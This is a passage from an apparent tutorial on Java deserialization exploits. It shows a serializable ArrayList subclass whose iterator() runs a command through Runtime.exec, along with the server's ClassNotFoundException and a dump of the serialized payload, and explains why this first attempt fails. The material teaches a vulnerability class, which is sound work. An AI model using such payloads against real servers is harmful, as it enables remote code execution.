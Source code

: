 ```java
```
The for-each syntax above, `for (String entry : values)`, calls `Collection::iterator` behind the scenes.
Therefore if we implement `Collection::iterator` with custom code, the server should run it.
This is simple enough if we extend `ArrayList<String>` and override that one method.
Note that `ArrayList` implements `Serializable` so our extension will as well.
The following code should launch calculator when the server runs it.
```java
private static Collection<String> makeExploitCollection() {

    return new ArrayList<String>(){
        @Override
        public Iterator iterator() {
            try {
                Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            } catch (IOException e) {
            }
            return null;
        }
    };
}
```

However, we hit a snag if we try to send this exploit to the server.
The server prints an exception with a stacktrace.
```text
java.lang.ClassNotFoundException: com.cisco.amp.client.Client$1
    at java.net.URLClassLoader.findClass(URLClassLoader.java:382) ~[na:1.8.0_191]
    ...
    at com.cisco.amp.server.SubmissionController.submit(SubmissionController.java:22) ~[classes!/:0.0.1-SNAPSHOT]
    ...
```

The name `com.cisco.amp.client.Client$1` was given to the anonymous class we created in our client.
This is the server saying that it can't find the bytecode for `com.cisco.amp.client.Client$1`.

Let's take a look at what we sent to the server.
This is a `String` rendering of the exploit attempt.
```text
ï¿½ï¿½ sr com.cisco.amp.server.Submission>ï¿½ï¿½1_Gï¿½ L valuest Ljava/util/Collection;xpsr com.cisco.amp.client.Client$1ï¿½wï¿½:-ï¿½ï¿½  xr java.util.ArrayListxï¿½ï¿½ï¿½ï¿½aï¿½ I sizexp    w    x
```
We can see the references to classes we use, along with a little bit of data.
The bytecode for these classes wasn't sent along though.
Java deserialization uses classloaders to try finding the bytecode for these classes.
In this case, a `java.net.URLClassLoader` instance is searching through jar files on the classpath to find `com.cisco.amp.client.Client$1`.
It throws the above exception when it fails to find the class.

This means our exploit won't work in its current form.
The server needs to be able to access and execute our exploit code for it to work.
This can be accomplished by using classes that the server already has.
In the next section we'll see how reflection can make the exploit work in this manner.
